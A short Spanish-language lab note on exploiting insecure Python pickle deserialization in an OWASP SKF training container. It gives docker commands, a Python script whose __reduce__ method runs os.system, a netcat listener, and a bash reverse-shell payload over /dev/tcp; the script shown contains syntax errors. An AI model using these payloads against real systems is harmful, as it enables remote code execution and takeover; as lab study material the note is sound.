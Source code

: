 Pickling proceso mediante los objetos de python se conviernen en cadena de bytes

docker pull blabla1337/owasp-skf-lab:des-pickle
docker run -dit -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle

nvim exploitation.py

		import pickle
		import os
		import binascii

		class Exploit(object):
			def __reduce__(self):
				return (os.system. ('id',))
		if __name__ == '__main__':
			print(binascii.hexlify(pickle.dumps(Exploit()))

Ahoya al ejecutarlo nos da la cadena que podemos meter en el campo para ver si se muestra
En caso de que no se muestre podemos ponernos en escucha con 
		nc -nlvp 443

			cambiamos 'id' por 'bash -c "bash -i >& /dev/tcp/0.0.0.0/443 0>&1"'


y PWNED HEMOS ENTRADO AL SISTEMA Y YA PODEMOS HACER UN TRATAMIENTO DE TTI


